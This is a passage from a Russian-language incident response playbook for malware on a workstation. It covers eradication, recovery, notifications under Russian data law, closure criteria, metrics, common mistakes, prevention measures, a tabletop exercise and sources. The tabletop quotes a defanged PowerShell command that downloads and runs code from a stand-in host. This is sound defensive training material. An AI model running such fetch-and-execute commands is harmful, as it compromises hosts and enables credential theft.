| 9 | Используются ли украденные учётки: входы в облачную почту, SaaS, VPN, админку сайта с новых IP/устройств? | Журналы облачной почты, VPN, WAF / CMS |
| 10 | Были ли на хосте ПДн клиентов (выгрузки, доступ к 1С/CRM/базе) и признаки их передачи? | Файловая система, EDR, NGFW `bytes_out`, T1041 / T1567.002 |
| 11 | Скоуп: есть ли другие хосты? | По осям: **файл** (хеш, имя, путь, подписант), **сеть** (домен, IP, URL, SNI, JA3/JA4 — если NGFW пишет **[проверить]**), **DNS** (все хосты, разрешавшие C2 — находит и хосты без EDR), **почта** (то же письмо), **пользователь** (куда входила учётка после заражения), **хост** (кто входил на него), **поведение** (та же командная строка, связка родитель→потомок, имя задачи) |
| 12 | Товарный ВПО или целевая атака? | Семейство по TI и YARA/capa, признаки ручной работы (интервалы команд, разведка), уникальность образца |

Инструменты анализа (для обучения): Volatility 3 (`windows.pstree`, `windows.cmdline`, `windows.netscan`, `windows.malfind`); утилиты Эрика Циммермана (PECmd, AmcacheParser, AppCompatCacheParser, MFTECmd, EvtxECmd, RECmd); Hayabusa / Chainsaw с правилами Sigma; YARA, capa, FLOSS для образца.

## 9. Устранение

**Чистка или переустановка.** Переустановка из эталонного образа обязательна, если выполняется хотя бы одно:
- код выполнялся, а семейство однозначно не определено;
- найдено закрепление (Run, задачи, службы, WMI, драйверы) или внедрение в процессы;
- ВПО работало с правами администратора/SYSTEM или отключало защиту;
- это инфостилер, RAT, загрузчик, второй этап или инструменты пост-эксплуатации;
- хост «особый»;
- есть любые сомнения.

Чистка без переустановки допустима только для веток A и F (PUA/adware, известный майнер без закрепления вне профиля), если цепочка понятна полностью. Решает L2; через 24 ч — повторная проверка Autoruns и EDR.

**Порядок:**
1. L2 подтверждает в тикете: память, триаж-пакет и образец собраны. IM с юристом решают, нужен ли полный образ диска.
2. ИТ выдаёт подменный ноутбук с новыми учётными данными.
3. Переустановка ОС физически или в изолированном сегменте; при необходимости диск хранится как улика.
4. Проверить и удалить закрепление на **всех** найденных хостах; проверить политики и исключения АВ на хосте и на сервере управления.
5. Закрыть вектор по фактической причине: блок отправителя/домена и типа вложения на шлюзе; блок категории или домена-источника на NGFW/DNS; обновить ОС, браузер, офис при эксплуатации уязвимости; отозвать локальные права администратора; правило ASR/AppLocker/WDAC на запуск из `%AppData%`, `%Temp%`, `Downloads`; удалить неразрешённое RMM.
6. Если вектор массовый — PB-01 (удаление писем) и сообщение сотрудникам через IM/PR.

## 10. Восстановление и мониторинг после инцидента

1. Восстановить данные пользователя только как документы из резервной копии или облака, с проверкой АВ/EDR. **Не переносить** `AppData`, исполняемые файлы, профили браузеров, расширения. Проверить облачный диск пользователя на исходный хеш — синхронизация может вернуть файл.
2. Проверить: агент EDR/АВ установлен, в нужной политике, виден в консоли, телеметрия идёт; tamper protection включена; исключений нет; у пользователя нет локальных прав администратора.
3. Вернуть хост в рабочую сеть / снять изоляцию: при P3 — L2, при P2 и выше — IM. Только после переустановки или подтверждённой чистки.
4. Пользователь входит с новыми учётными данными, MFA перерегистрирована при необходимости.

**Усиленное наблюдение — не менее 14 дней (IR-план) [учебное: для P1 — 30 дней]:**

| Что мониторить | Как | Срок |
| --- | --- | --- |
| IOC инцидента (хеши, домены, IP, URL, имена задач/служб, командные строки) | Правила SIEM с высоким приоритетом по всем хостам | 14 дней в режиме тревоги, затем 90 дней в поиске |
| Учётки пользователя и всех, кто входил на хост | Входы с новых IP, стран, ASN, устройств; новые MFA-методы, правила пересылки | 14 дней |
| Восстановленный хост | Новые элементы автозапуска, LOLBins с URL, отключение защиты, связь с новыми доменами | 14 дней; ручные проверки через 24 ч и через 7 дней |
| Сервисы из списка паролей браузера | Входы в админку сайта, кабинеты маркетплейсов, платёжного агрегатора — владельцы систем | 14 дней |
| Внешние источники | Сервис мониторинга утечек учётных данных (логи стилеров с доменом компании) | 30–90 дней |
| Повторное заражение | Тот же вектор у других сотрудников (письмо, сайт, тип вложения) | 30 дней |

## 11. Коммуникации и уведомления

Правило канала: инцидент обсуждается в тикете и чате инцидента; с пользователем — только по телефону. При подозрении на компрометацию почты пользователя или домена — резервный канал (IR-план).

| Условие | Кого | Когда | Кто сообщает | Канал |
| --- | --- | --- | --- | --- |
| P3 | Дежурный L2 | Сразу после триажа | L1 | Тикет + звонок ночью |
| P2 | IM | ≤ 15 мин после присвоения | L2 | Звонок |
| P1 | IM, директор, юрист/DPO | ≤ 15 мин | L2 → IM | Звонок, резервный канал |
| Изоляция хоста | Пользователь, его руководитель | Сразу после изоляции | L2 / ИТ | Телефон |
| Переустановка, подменный ноутбук | ИТ / Service Desk (не принимать от пользователя заявки «почините» в обход ИБ) | При решении | L2 | Тикет |
| Обоснованное подозрение на ПДн | Юрист/DPO; время уведомления — в тикет | Сразу | IM | Звонок |
| Украдены доступы к системе | Владелец системы (сайт, 1С, маркетплейсы) | Сразу после выявления | IM | Звонок |
| Банк-клиент | Бухгалтерия, банк | Немедленно | IM / главбух | Телефон |
| Массовый вектор (>3 хостов, одно письмо или сайт) | Сотрудники | По решению IM | PR / IM | Рассылка без технических деталей |
| Статусы руководству | Директор | P1 — каждые 2 ч, P2 — дважды в день | IM | Формат IR-плана |

**Внешние уведомления.** «Альфа-Трейд» — оператор ПДн, не субъект КИИ (187-ФЗ и сроки НКЦКИ 3/24 ч к ней не применяются).
- Роскомнадзор: при неправомерной передаче ПДн — первичное уведомление в течение **24 часов** с момента выявления и результаты внутреннего расследования в течение **72 часов** (152-ФЗ, ст. 21 ч. 3.1) **[проверить актуальную редакцию]**. Момент «выявления» определяет юрист/DPO; поэтому DPO уведомляется при подозрении, а не после завершения форензики.
- Взаимодействие операторов ПДн с ГосСОПКА (ст. 19 152-ФЗ, приказ ФСБ) **[проверить номер приказа, статью и применимость]**.
- Неуведомление РКН — самостоятельное нарушение; размеры штрафов (ст. 13.11 КоАП, поправки 2024–2025 гг.) **[проверить]**.
- Полиция (ст. 272, 273 УК РФ) — по решению руководства с юристом; улики с цепочкой хранения до переустановки.

**Шаблон звонка пользователю:**
> «Здравствуйте, это служба ИБ. На вашем компьютере сработала защита, мы временно отключили его от сети. Пожалуйста, не выключайте и не перезагружайте его, ничего не удаляйте и не вводите на нём пароли. Подскажите: что вы открывали или устанавливали сегодня около <время>? Откуда пришёл файл — письмо, сайт, мессенджер, флешка? Не вставляли ли вы команду с сайта в окно "Выполнить"? Какие сервисы сохранены у вас в браузере — админка сайта, банк, кабинеты? С вами свяжется ИТ насчёт подменного ноутбука. Пароли личных сервисов, которые вы вводили на этом ПК, смените с другого устройства».

**Шаблон короткого статуса IM:**
> «INC-2026-___, P_. Хост ___ (отдел ___), ВПО ___ (класс), вектор ___. Сделано: изоляция ___ UTC, сессии отозваны ___, улики собраны. Масштаб: ___ хостов. ПДн: не затронуты / под оценкой DPO с ___ UTC. Дальше: ___. Нужны решения: ___».

**Шаблон рассылки сотрудникам (массовый вектор):**
> «Коллеги, сегодня приходят письма / встречаются сайты с <признак>. Не открывайте вложения и не вставляйте команды из браузера в окно "Выполнить". Если уже открыли — не выключайте компьютер и позвоните в ИБ по номеру ___».

## 12. Критерии закрытия

- [ ] Установлено, что выполнилось и что сделал ВПО, — или зафиксировано, что код не выполнялся, с указанием источника данных.
- [ ] Вектор проникновения установлен — **или** IM решил закрыть с пометкой «вектор не установлен», гипотезами и компенсирующими мерами.
- [ ] Скоупинг по осям (файл, сеть, DNS, почта, пользователь, хост, поведение) за ≥ 30 дней выполнен; запросы и результаты в тикете.
- [ ] Других заражённых хостов нет, или они обработаны отдельными тикетами.
- [ ] Учётные данные по ветке сменены, сессии и токены отозваны, MFA и правила почты проверены; список внешних сервисов передан владельцам и закрыт.
- [ ] Хост переустановлен (или очищен по критериям раздела 9), агенты онлайн, исключений АВ нет.
- [ ] Изоляция снята с апрувом L2 (P3) / IM (P2+).
- [ ] IOC в блок-листах и в правилах SIEM на 14+ дней.
- [ ] Вопрос ПДн закрыт заключением DPO, если открывался; уведомления отправлены, время зафиксировано.
- [ ] Улики сохранены с цепочкой хранения, срок хранения определён.
- [ ] Пользователь работает на чистом устройстве.
- [ ] P1/P2: разбор назначен (≤ 5 рабочих дней); P3: записан вывод «что улучшить в детекте»; задачи на улучшения заведены.
- [ ] Закрывает L2 (P3–P4) или IM (P1–P2).

## 13. Метрики

| Метрика | Как считать | Ориентир [учебное] |
| --- | --- | --- |
| MTTD | От первого появления ВПО на хосте (по `$MFT` / EDR) до сработки | Снижение квартал к кварталу |
| MTTA | От сработки до начала работы аналитика | В пределах «реакции до» IR-плана |
| MTTC (time to contain) | От подтверждения до изоляции | P2 ≤ 15 мин, P3 ≤ 1 ч |
| MTTR | От обнаружения до возврата пользователя на чистое устройство | P3 ≤ 2 рабочих дня |
| Время до отзыва сессий | От подозрения на кражу учётных данных до отзыва токенов | ≤ 1 ч |
| Dwell time | От первого появления до сдерживания | — |
| Доля сработок, где вопрос «выполнялся ли» решён с источником | Тикеты с заполненным полем / все TP | 100 % |
| Доля FP по правилам PB-04 | FP / все сработки правила | Повод для тюнинга при > 50 % |
| Повторное заражение | Тот же хост или вектор в течение 30 дней | 0 |
| Доля хостов, прошедших переустановку при подтверждённом запуске | — | ≥ 90 % |
| Хосты без агента EDR / молчащие агенты | Еженедельный отчёт | 0 |

## 14. Типичные ошибки и ловушки

| Ошибка | Чем опасна | Как правильно |
| --- | --- | --- |
| Закрыть «антивирус удалил» | Пропущены вторая стадия, стилер, закрепление | Ответить на вопрос «выполнялся ли» с источником |
| «Хеш неизвестен в TI — значит чисто» | Уникальные под жертву загрузчики | Решать по поведению |
| Загрузить файл в VirusTotal | Утечка данных из документа-приманки; атакующий видит, что его нашли | Только поиск по хешу; файл — во внутреннюю песочницу с разрешения L2 |
| Сменить пароль с заражённого ПК или до изоляции | Новый пароль уходит стилеру/кейлоггеру; атакующий предупреждён | После изоляции, с чистого устройства, через ИТ |
| Сменить только доменный пароль | Украденные cookie и пароли из браузера продолжают работать | Отзыв сессий + список сервисов из браузера + LAPS + VPN |
| Ждать P2 для дампа памяти | Процесс завершится, хост перезагрузят, бесфайловые стадии потеряны | Дамп при любом подтверждённом запуске до перезагрузки |
| Блок хеша до получения образца | Единственный экземпляр удалён | Сначала образец и SHA256 |
| Блок IP CDN / облака | Ломаются легитимные сервисы; атакующий сменит IP | Блокировать домен/URL; IP CDN — только с IM |
| Критерий P2 «есть связь с C2» без уточнения | DNS-запрос и заблокированное соединение ≠ успешная сессия | P2 — повторяющиеся `allowed` с `bytes_out` |
| Не учитывать роль пользователя | Стилер у админа сайта обработан как P3 | Матрица 5.3: «особые» хосты не ниже P2 |
| Вход администратора на хост под доменным админом | Учётные данные попадают в память заражённого хоста | Только EDR live response или отдельная учётка |
| Переустановка до сбора улик | Вектор не установить, критерий закрытия не выполнить | L2 подтверждает сбор улик |
| Снятие изоляции до переустановки | Возобновление C2 | Переустановка → проверка агента → возврат в сеть |
| Перенос `AppData` и «Документов» без проверки | Возврат исходного ВПО | Только документы, с проверкой; облачный диск — на хеш |
| Блокировать по одному при целевой атаке | Атакующий ускоряется, переходит на резервный канал | Одно окно сдерживания по команде IM |
| Изолировать при P4 | Лишний простой (бухгалтер в день зарплаты) | P4 — без изоляции, если отсутствие запуска подтверждено |
| DPO не уведомлён | Пропуск 24 ч по 152-ФЗ | Уведомлять при обоснованном подозрении |
| Не проверить исключения АВ и здоровье агента | Хост «под контролем», а телеметрии нет | Defender 5001/5007 или аналоги, `Get-MpPreference`, новые драйверы (7045, kernel) |
| Правило только «Word → PowerShell» | ClickFix, LNK/ISO, side-loading, RMM не видны | Набор правил из раздела 3 |

## 15. Меры по предотвращению и улучшению защиты

**Предусловия, без которых плейбук не работает:**
- [ ] EDR онлайн на 100 % рабочих станций; еженедельный отчёт о хостах без агента и молчащих агентах.
- [ ] АВ/EDR в режиме «карантин», а не «удалить»; tamper protection включена.
- [ ] Аудит 4688 с командной строкой, PowerShell Script Block Logging (4104), аудит задач (4698), Sysmon с проверенной конфигурацией; журналы рабочих станций в SIEM; увеличен размер локальных журналов (Security.evtx по умолчанию мал **[проверить GPO]**).
- [ ] Журналы DNS и прокси/NGFW хранятся ≥ 90 дней.
- [ ] Набор форензики (EDR live response, WinPmem, KAPE/Velociraptor) на защищённом ресурсе с проверенными хешами; хранилище улик с журналом доступа.
- [ ] Эталонный образ ОС, процедура переустановки (целевое время ≤ 4 ч [учебное]), запас подменных ноутбуков.
- [ ] Список «особых» рабочих мест и разрешённого ПО/RMM; права L1/L2 в EDR и NGFW определены; контакт банка для экстренной блокировки платежей.

**Улучшения защиты (выбирать по фактическому вектору):**
- **Ограничение запуска:** правила ASR (если Defender) или аналоги EDR — дочерние процессы Office, исполняемое содержимое из почты, обфусцированные скрипты, кража из LSASS; AppLocker/WDAC на `%AppData%`, `%Temp%`, `Downloads`.
- **Скриптовые хосты:** ассоциировать `.js`, `.jse`, `.vbs`, `.vbe`, `.wsf`, `.hta` с Блокнотом; ограничить `mshta`, `wscript`, `cscript`.
- **ClickFix:** обучение («ни один сайт не просит вставлять команды в Win+R»); детект по RunMRU и `explorer.exe → powershell/mshta`; отключение окна «Выполнить» политикой там, где оно не нужно (частичная мера).
- **PowerShell:** Constrained Language Mode для обычных пользователей, удаление PowerShell 2.0.
- **Учётные данные:** LAPS; Credential Guard и LSA Protection (RunAsPPL); нет локальных админов у пользователей; отдельные учётки и рабочие места для администраторов; запрет сохранения паролей в браузере + корпоративный менеджер паролей; MFA на админку сайта, маркетплейсы, платёжный агрегатор, хостинг, DNS-регистратор.
- **Почта:** блок ISO, IMG, VHD, LNK, HTA, JS, VBS, ONE, SVG (если нет бизнес-необходимости); архивы с паролем — в карантин; ретроспективный отзыв писем песочницей.
- **Сеть:** DNS-фильтрация новых доменов и категорий malware/phishing; инспекция TLS для рискованных категорий; контроль приложений для RMM (разрешён только корпоративный); полный туннель VPN или облачный SWG для удалённых.
- **EDR:** блок уязвимых драйверов (Microsoft Vulnerable Driver Blocklist или функция EDR), мониторинг молчащих агентов.
- **Детект-инжиниринг:** правило Sigma на цепочку из инцидента и проверка, что оно сработало бы на данных этого инцидента.
- **Мониторинг утечек учётных данных:** сервис отслеживания логов стилеров с доменом компании.
- **Обучение:** обезличенный разбор кейса для подразделения.

## 16. Учебная мини-ситуация (tabletop)

**Вводная.** Пятница, 17:40 (UTC+3). EDR присылает сработку средней важности «Suspicious PowerShell command line» на ноутбуке PC-MKT-14. Пользователь — контент-менеджер маркетинга, работает из дома через VPN с раздельным туннелированием. В браузере у неё сохранены входы в админку сайта магазина и в кабинет маркетплейса. Дерево процессов: `explorer.exe → powershell.exe -w hidden -c "iwr hxxps://cdn-check[.]example/v.txt | iex"`. EDR завершил процесс. Файла на диске нет. NGFW соединений не видит. Через 20 минут в журнале облачной почты появляется вход под её учёткой из другой страны.

**Вопросы:**
1. Какой вектор наиболее вероятен, какие артефакты его подтвердят и почему NGFW «ничего не видит»?
2. Какую критичность и ветку вы присвоите сразу и после входа из другой страны? Кого и когда уведомите?
3. В каком порядке вы выполните изоляцию, сбор памяти, отзыв сессий и смену паролей? Что именно войдёт в список смены?
4. Нужен ли DPO и в какой момент? Как вы будете рассуждать о сроках по 152-ФЗ, если инцидент развивается в пятницу вечером?
5. Какие две меры предотвращения вы предложите на разборе и как проверите, что новое правило детекта сработало бы на этом случае?

## 17. Источники и что почитать

- MITRE ATT&CK Enterprise — https://attack.mitre.org/ (техники выше; номера сверять с текущей версией).
- NIST SP 800-61 Rev. 3, Incident Response Recommendations and Considerations for Cybersecurity Risk Management — https://csrc.nist.gov/pubs/sp/800/61/r3/final ; Rev. 2 (Computer Security Incident Handling Guide) проще для новичка.
- NIST SP 800-86, Guide to Integrating Forensic Techniques into Incident Response — https://csrc.nist.gov/pubs/sp/800/86/final
- RFC 3227, Guidelines for Evidence Collection and Archiving — https://www.rfc-editor.org/rfc/rfc3227
- CISA, Federal Government Cybersecurity Incident and Vulnerability Response Playbooks (2021) — https://www.cisa.gov/
- SANS Incident Handler's Handbook — https://www.sans.org/white-papers/33901/ ; постеры SANS DFIR «Hunt Evil» и «Windows Forensic Analysis» — https://www.sans.org/posters/
- Microsoft Learn: аудит создания процессов (4688, командная строка), PowerShell Script Block Logging, Sysmon (Sysinternals) — https://learn.microsoft.com/
- LOLBAS Project (злоупотребление штатными бинарниками Windows) — https://lolbas-project.github.io/
- SigmaHQ (правила Sigma) — https://github.com/SigmaHQ/sigma
- Документация инструментов: Velociraptor (https://docs.velociraptor.app/), KAPE (Kroll), Volatility 3 (https://volatility3.readthedocs.io/), утилиты Эрика Циммермана (https://ericzimmerman.github.io/).
- 152-ФЗ «О персональных данных» — актуальная редакция на consultant.ru / garant.ru.
